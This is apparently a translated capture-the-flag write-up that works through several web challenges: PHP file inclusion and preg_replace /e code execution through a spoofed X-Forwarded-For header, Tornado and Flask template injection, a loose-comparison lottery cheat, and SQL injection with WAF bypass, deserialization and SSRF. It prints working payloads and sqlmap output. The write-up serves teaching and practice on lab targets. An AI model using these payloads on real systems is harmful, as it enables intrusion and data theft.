                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {

if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}

//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}

?>

</body>

</html>
```

The role of the page parameter is:

```php
<?php
$page = $_GET[page];
if (isset($page)) {
if (ctype_alnum($page)) {
?>
    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />
```

It checks whether the page parameter is entirely alphanumeric, and if so outputs the page content.

It also gives the genuinely useful code:

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];
    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
```

[PHP: preg_replace - Manual](https://www.php.net/manual/zh/function.preg-replace.php)

In the older PHP environment used by this challenge, the `/e` modifier makes `preg_replace` evaluate the replacement as **PHP code**. This modifier was removed in PHP 7.

- **Logic:** As long as `$pattern` matches something in `$subject`, the string in `$replacement` is passed to `eval()` for execution.
- **Payload construction:**
  - `$pattern`: `/(.*)/e` (match anything and enable execution mode)
  - `$replacement`: `system('ls')` (the command you want to run)
  - `$subject`: `any_text` (any character to trigger a match)

So you just need to capture the request to set XFF to `127.0.0.1` and craft the payload to achieve RCE via preg_replace.



RCE achieved; next just find the flag.

```text
?pat=/(.*)/e&rep=system('find+-name+*flag*')&sub=a
```

(Remember to URL-encode the rep parameter, or you'll get a bad request.)

```text
<br >Welcome My Admin ! <br >./s3chahahaDir/flag ./s3chahahaDir/flag/flag.php ./s3chahahaDir/flag ./s3chahahaDir/flag/flag.php
```

```text
?pat=/(.*)/e&rep=system('cat+./s3chahahaDir/flag/flag.php')&sub=a
```

```php
<?php

$flag = 'cyberpeace{959d1c90a014d073bdf06d41708ab1b5}';

?>
```

Got the flag.

## easytornado

Entering the page, there are three links:

```text
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
```

From `/flag.txt` we learn the flag is under `/fllllllllllllag`. Next, from the URL `http://61.147.171.103:51990/file?filename=/flag.txt&filehash=ea83715808b6cb7cf68a7a8e83e828be`, it's not hard to guess that the access method is `file?filename=/fllllllllllllag&filehash=…`, so the goal is to find the `filehash`. From the render in `/welcome.txt` it's obvious this challenge is about SSTI, and from the content of `hints.txt` we can roughly guess that the value of `filehash` is `md5(cookie_secret+md5(fllllllllllllag))`, so the ultimate goal is to find `cookie_secret`. First scan with dirsearch, which finds:

```text
[14:09:05] Scanning:
[14:09:13] 200 -    87B - /error
[14:09:13] 301 -     0B - /file  ->  /error?msg=Error
```

I found that msg is the entry point for the template injection, but a lot is filtered — parentheses, square brackets, vertical bars, and underscores are all filtered — so it feels like the only option is to find cookie_secret somehow. So I went to GitHub to download the Tornado source and look up cookie_secret.



Here I found that the `CookieTestRequestHandler` class generates a `setting` dictionary during initialization that contains the `cookie_secret` key-value pair, and this dictionary is also referenced later.



So we can directly reference the way it's used here to find `cookie_secret` in the challenge. Since the underscore is filtered, we can't use `.get(cookie_secret)` directly, but it seems that just using `{{handler.application.settings}}` prints out the entire dictionary.

```python
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '02dcdb12-36c5-46ec-9615-cb348769fdd2'}
```

## shrine

Entering the page displays the source code:

```python
import flask
import os

app = flask.Flask(__name__)#标准的flask初始化语句，创建一个web应用实例

app.config['FLAG'] = os.environ.pop('FLAG')#通过键名将'FLAG'从系统环境变量中取出放到config字典中

@app.route('/')
def index():
    return open(__file__).read()#在根目录展示应用程序源代码

@app.route('/shrine/<path:shrine>')#path匹配包含/的任意字符串
def shrine(shrine):#接收url路径中匹配到的shrine字符串作参数

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')#过滤小括号
        blacklist = ['config', 'self']#过滤config,self
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

From `return flask.render_template_string(safe_jinja(shrine))` it's obviously SSTI, and from `app.config['FLAG'] = os.environ.pop('FLAG')` we know that to get the flag we need to read `app.config`. Here config and self are filtered to prevent directly using `{{ config }}` or `{{ self.__init__.__globals__['current_app'].config }}`, but I learned that besides these, `url_for` and `get_flashed_messages` can also be exploited.

<https://www.freebuf.com/articles/web/359392.html>



So we can directly craft the payload below to read the FLAG:

## lottery

Entering the page, it's a lottery website; `index.php` explains the rules as buying tickets by guessing 7 numbers, with the prize higher the more you guess correctly. You can buy tickets at `buy.php`, `account.php` shows the current account balance, and `market.php` sells the flag for 9,990,000 dollars. The challenge attachment gives the source, but actually a quick dirsearch scan reveals that `robots.txt` records `.git`, or it scans out `.git` directly, so digging with githack can also extract the whole site's source.

Capturing requests with Burp, I found that both guessing the lottery and buying the flag call `api.php`. Looking at the source, the lottery-drawing code is mainly as follows:

```php
// my boss told me to use cryptographically secure algorithm 
function random_num(){
	do {
		$byte = openssl_random_pseudo_bytes(10, $cstrong);
		$num = ord($byte);
	} while ($num >= 250);

	if(!$cstrong){
		response_error('server need be checked, tell admin');
	}
	
	$num /= 25;
	return strval(floor($num));
}

function random_win_nums(){
	$result = '';
	for($i=0; $i<7; $i++){
		$result .= random_num();
	}
	return $result;
}

function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
	switch ($same_count) {
		case 2:
			$prize = 5;
			break;
		case 3:
			$prize = 20;
			break;
		case 4:
			$prize = 300;
			break;
		case 5:
			$prize = 1800;
			break;
		case 6:
			$prize = 200000;
			break;
		case 7:
			$prize = 5000000;
			break;
		default:
			$prize = 0;
			break;
	}
	$money += $prize - 2;
	$_SESSION['money'] = $money;
	response(['status'=>'ok','numbers'=>$numbers, 'win_numbers'=>$win_numbers, 'money'=>$money, 'prize'=>$prize]);
}
```

Clearly, the comparison of the winning numbers here is:

```php
if($numbers[$i] == $win_numbers[$i])
```

which is the loose comparison `==` rather than `===`.

- `true == "any string"` is `true`.
- `false == ""` is `true`.

So we can just capture the request in Burp, change the sent values to an array that's all `true`, and replay it; as long as the number encountered isn't 0, `same_count++` counts, and after a few rounds we've saved up enough money to buy the flag.



## fakebook

Entering the page, I first scanned with dirsearch, which turned up a lot:



It found `flag.php`, which should be used later.

In `robots.txt` I found:

```text
User-agent: *
Disallow: /user.php.bak
```

Accessing and downloading the `user.php` backup file, the content is as follows:

```php
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;abcdefghijklmn
        return preg_match("/^(((http(s?))\\:\\/\\/)?)([0-9a-zA-Z\\-]+\\.)+[a-zA-Z]{2,6}(\\:[0-9]+)?(\\/\\S*)?$/i", $blog);
    }

}
```

Auditing the code, it feels like there's deserialization.

The `UserInfo` class is used to store user information.

The `isValidBlog` public method validates whether `blog` is legitimate — whether it's in `url` format, requiring a domain of digits or upper/lowercase letters plus a dot plus a top-level domain limited to 2-6 characters, with http or https and a port optional.

The `get` private method fetches the content of `blog`; if it's a 404 it returns 404.

The `getBlogContents` public method is the public interface exposed to the outside, used to call the private `get` method from within the class.

In `view.php` I found the following:

```text
Notice: Undefined index: no in /var/www/html/view.php on line 24
[*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)

Fatal error: Call to a member function fetch_assoc() on boolean in /var/www/html/db.php on line 66
```

It feels like there's a SQL injection.

Going back to look at the page first, there are two buttons, login and join. From the earlier code audit we know blog needs a URL filled in; after joining, it shows


Clicking user enters the `view.php` found earlier, this time with an extra parameter `?no=1`, which I guessed is the SQL injection point. Let me test it with sqlmap.



There is a SQL injection vulnerability, but only boolean-blind and time-blind were detected. But I noticed there's a:

```text
[14:58:04] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[14:58:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:58:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:58:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:58:04] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
```

Because I was lazy I used `--batch` directly; let me delete the records and retry union.

```text
[15:09:08] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[15:09:40] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[15:09:46] [INFO] target URL appears to be UNION injectable with 4 columns
```

It seems it can detect 4 columns, and the union query is also injectable, but it seems to be blocked by a WAF too; let me inject manually.



Blocked — probably matching `UNION SELECT`. Trying to bypass, usually with comments, case, or doubling; using `/**/` seems to work.

```text
?no=2/**/**union/****/select/**/1,2,3,4#
```



Clearly `username` echoes back — that is, position 2. Then, based on the `flag.php` found by dirsearch earlier, just replacing the second column with MySQL's `LOAD_FILE` function should echo the flag.

```text
?no=2/****/union/****/select/**/1,LOAD_FILE("/var/www/html/flag.php"),3,4#
```



It seems deserialization wasn't used, though. I learned online that there are many more methods; it seems feeding sqlmap the POST packet captured during registration can dump the database directly.

```text
Database: fakebook
Table: users
[8 entries]
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
| no   | data                                                                                                                                                                                                                      | passwd                                                                                                                                 | username                                                                                             |
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
| 1    | O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                                                        | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user                                                                                                 |
| 2    | O:8:"UserInfo":3:{s:4:"name";s:4:"8046";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                                                        | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | 8046                                                                                                 |
| 3    | O:8:"UserInfo":3:{s:4:"name";s:36:"user' AND 4691=3167 AND 'Brys'='Brys";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                       | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND 4691=3167 AND 'Brys'='Brys                                                                 |
| 4    | O:8:"UserInfo":3:{s:4:"name";s:36:"user' AND 8775=2167 AND 'yXfs'='yXfs";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                       | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND 8775=2167 AND 'yXfs'='yXfs                                                                 |
| 5    | O:8:"UserInfo":3:{s:4:"name";s:53:"user' AND (SELECT 0x564f596b)='tMYw' AND 'KsTL'='KsTL";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                      | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND (SELECT 0x564f596b)='tMYw' AND 'KsTL'='KsTL                                                |
| 6    | O:8:"UserInfo":3:{s:4:"name";s:137:"user' AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x71706a7071,(SELECT (ELT(5212=5212,1))),0x71706a7171)) USING utf8))) AND 'wkzO'='wkzO";s:3:"age";i:20;s:4:"blog";s:8:"user.com";} | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x71706a7071,(SELECT (ELT(5212=5212,1))),0x71706a |
| 7    | O:8:"UserInfo":3:{s:4:"name";s:98:"(SELECT CONCAT(CONCAT(0x71706a7071,(CASE WHEN (4057=4057) THEN 0x31 ELSE 0x30 END)),0x71706a7171))";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                         | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | (SELECT CONCAT(CONCAT(0x71706a7071,(CASE WHEN (4057=4057) THEN 0x31 ELSE 0x30 END)),0x71706a7171))   |
| 8    | O:8:"UserInfo":3:{s:4:"name";s:61:"(SELECT CONCAT(0x71706a7071,(ELT(9674=9674,1)),0x71706a7171))";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                              | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | (SELECT CONCAT(0x71706a7071,(ELT(9674=9674,1)),0x71706a7171))                                        |
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
```

I found that the data is all serialized content, and earlier when testing the union query it errored out on deserialization.


no matches 1, username matches user, passwd matches the hash of 123, so data matches the serialized content, containing name, user, age, and blog. So I guessed that `union select 1,2,3,4#` corresponds to `no,username,passwd,data`, and tried changing the value of 4 to make it deserialize successfully.

```text
?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}'#
```



I found that the interface's age and blog displayed the content from data, so I could use the SSRF (server-side request forgery) vulnerability, changing the value of blog in the serialized content to use the file protocol to read the server's `flag.php` file.

```text
